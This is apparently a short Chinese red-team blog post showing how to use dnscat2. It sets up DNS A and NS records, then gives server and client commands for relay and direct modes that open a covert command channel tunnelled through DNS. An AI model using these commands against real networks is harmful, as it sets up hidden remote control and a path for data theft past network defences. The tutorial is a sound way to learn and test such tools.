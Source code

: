 ```yaml
---
layout: post
title: dnscat2工具使用
excerpt: "工具试用"
categories: [Redteam]
comments: true
---
```



#### 中继使用方法
首先创建A记录和NS记录
```
主机记录		记录类型		记录值
ns				A				x.x.x.x
dns				ns				ns.snappyzz.com
```
这样当我们解析*.dns.snappyzz.com的时候,就会交给ns.snappyzz.com来解析,即x.x.x.x

我们在服务端运行
```
ruby ./dnscat2.rb dns.snappyzz.com --no-cache
```
在客户端运行
```
./dnscat --secret=xxxxxxxxxxxxxxxxxxx dns.snappyzz.com
```
我们发现命令已经通过dns的域名带出来
![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/dnscat2_1.png)

#### 直连方法

服务端运行
```
ruby ./dnscat2.rb
```

客户端运行
```
./dnscat --dns server=x.x.x.x,port=53 --secret=6b214ee68c5976465d0fce18db5d3a28
```
我们可以看到流量已经通过直接连接的方式发送dns协议,通过伪造的域名发送
![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/dnscat2_2.png)

同样它还有端口转发功能,后续用到了再看
